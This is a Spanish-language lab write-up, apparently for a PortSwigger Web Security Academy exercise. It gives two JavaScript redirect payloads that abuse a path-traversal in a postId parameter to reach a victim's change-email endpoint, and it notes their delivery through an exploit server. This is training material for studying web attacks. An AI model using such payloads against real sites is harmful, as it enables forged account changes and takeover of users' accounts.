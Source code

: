 


payloads:

payload 1:
script
	document.location = "https://LAB-ID.net/post/comment/confirmation?postId=../my-account";
script

https://0a21003f034ef67d89ecae7c00870001.web-security-academy.net/

payload 2:
script
	document.location = "https://LAB-ID.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=hackme2%40web-security-academy.net%26submit=1"
script

logeandome, actualizando correo y agregando un comment:

![[Pasted image 20230704185654.png]]


![[Pasted image 20230704185753.png]]

![[Pasted image 20230704185815.png]]

![[Pasted image 20230704185857.png]]

despues de poner el comentario me redirige al HOME y con esta direccion:

https://0a21003f034ef67d89ecae7c00870001.web-security-academy.net/post/3

probando si puedo redigir con el payload 1:

https://0a21003f034ef67d89ecae7c00870001.web-security-academy.net/post/comment/confirmation?postId=../my-account

efectivamente despues de poner este link me redirige aca:

![[Pasted image 20230704190506.png]]

probando el payload2 si puedo cambiar correo y redigir:

https://0a21003f034ef67d89ecae7c00870001.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=hackme2%40web-security-academy.net%26submit=1

efectivamente pude cambiar el correo:

![[Pasted image 20230704190949.png]]

voy al exploit server y uso el segundo payload:

![[Pasted image 20230704191342.png]]

hago un cambio en el correo para rastrear que si se cumple el proceso:

![[Pasted image 20230704191508.png]]

store y deliver to the victim:

![[Pasted image 20230704191616.png]]
